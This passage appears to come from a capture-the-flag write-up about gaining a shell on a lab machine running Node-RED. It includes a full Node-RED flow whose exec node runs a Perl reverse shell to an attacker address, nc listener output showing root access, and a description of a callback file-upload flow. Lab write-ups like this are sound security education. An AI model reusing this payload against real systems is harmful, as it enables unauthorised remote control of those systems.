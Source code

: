 In investigating the box, it's incredibly bare: no `python`, `python3`,
`php`, `nc`, `ifconfig`, `netstat`, `arp`. There is `perl` though.

I'll use the `perl` reverse shell from
[PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
to get a proper callback shell. The exec node runs a command. In this
case, I'll configure it to take input for the port, which is inserted
into the middle of the command:

![](/img/1532602467605.png)

So the flow looks like:

![](/img/1532602489603.png)



    [{"id":"6fe6b87a.30d988","type":"tab","label":"Reverse_TCP","disabled":false,"info":""},{"id":"6caeb9ad.e39468","type":"inject","z":"6fe6b87a.30d988","name":"9002","topic":"","payload":"9002","payloadType":"str","repeat":"","crontab":"","once":false,"onceDelay":0.1,"x":150,"y":160,"wires":[["97f946aa.853548"]]},{"id":"97f946aa.853548","type":"exec","z":"6fe6b87a.30d988","command":"perl -e 'use Socket;$i=\"10.10.14.14\";$p=","addpay":true,"append":";socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'","useSpawn":"false","timer":"","oldrc":false,"name":"perl rev shell","x":350,"y":160,"wires":[["e2dba6a9.bb9fe8"],["e2dba6a9.bb9fe8"],[]]},{"id":"e2dba6a9.bb9fe8","type":"debug","z":"6fe6b87a.30d988","name":"","active":true,"tosidebar":true,"console":false,"tostatus":false,"complete":"false","x":570,"y":160,"wires":[]}]



Pushing the button leads to shell!



    root@kali# nc -lnvp 9002
    listening on [any] 9002 ...
    connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 45908
    /bin/sh: 0: can't access tty; job control turned off
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # hostname
    nodered



### File Upload

Since the box doesn't have `curl` or `wget` or `nc`, I created a file
upload flow, that would callback to a given port, and then what it reads
to `/tmp/.df/upload`:

![](/img/1532602816978.png)

The string "9003" is not used by the TCP node, it's just there because I
needed something, and it was a good visual reminder as to what port the
flow expected.
